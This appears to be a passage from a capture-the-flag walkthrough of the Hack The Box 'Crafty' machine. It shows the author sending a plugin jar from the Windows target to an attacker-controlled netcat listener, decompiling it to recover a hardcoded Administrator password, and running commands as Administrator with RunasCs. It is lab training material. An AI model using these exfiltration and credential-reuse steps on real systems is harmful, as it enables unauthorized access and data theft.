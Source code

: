 Now I transfered nc.exe executable file into the victim machine so that that will help me transfer the `playercounter-1.0-SNAPSHOT.jar` file.

On Attackers Linux machine I stated listener on port 4444.
```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Crafty]
└─$ nc -lvp 4444 > playercounter-1.0-SNAPSHOT.jar 
listening on [any] 4444 ...
connect to [10.10.14.36] from crafty.htb [10.10.11.249] 49712
```
{: .nolineno}
{: .nolineno}

On Victim Windows machine , my transfer command will be ⏬
```powershell
c:\Users\svc_minecraft\Desktop>nc.exe 10.10.14.36 4444 < c:\Users\svc_minecraft\server\plugins\playercounter-1.0-SNAPSHOT.jar
nc.exe 10.10.14.36 4444 < c:\Users\svc_minecraft\server\plugins\playercounter-1.0-SNAPSHOT.jar
```
{: .nolineno}
{: .nolineno}

I got the file lets extract it into the attacker machine and open the files from it through online decompilers like this one ⏬

![Image](Pasted%20image%2020240414120331.png)
_Java online decompiler : https://www.decompiler.com/_

I got this interesting information.
```
{: .nolineno}
{: .nolineno}
s67u84zKq8IXw
```
{: .nolineno}
{: .nolineno}

This is the password for Administrator lets try to login with winrm service but it failed I think due to remote connection not allowed so I need to run myself (svc_minecraft) as Administrator through [RunasCs](https://github.com/antonioCoco/RunasCs) Tool.

```bash
.\RunasCs.exe Administrator s67u84zKq8IXw "cmd /c whoami /all"
```
{: .nolineno}
{: .nolineno}

```powershell
PS C:\Users\svc_minecraft\Desktop> .\RunasCs.exe Administrator s67u84zKq8IXw "cmd /c whoami /all"
.\RunasCs.exe Administrator s67u84zKq8IXw "cmd /c whoami /all"


USER INFORMATION
----------------

User Name            SID                                          
==================== =============================================
crafty\administrator S-1-5-21-4088429403-1159899800-2753317549-500


GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes                                                     
============================================================= ================ ============ ===============================================================
```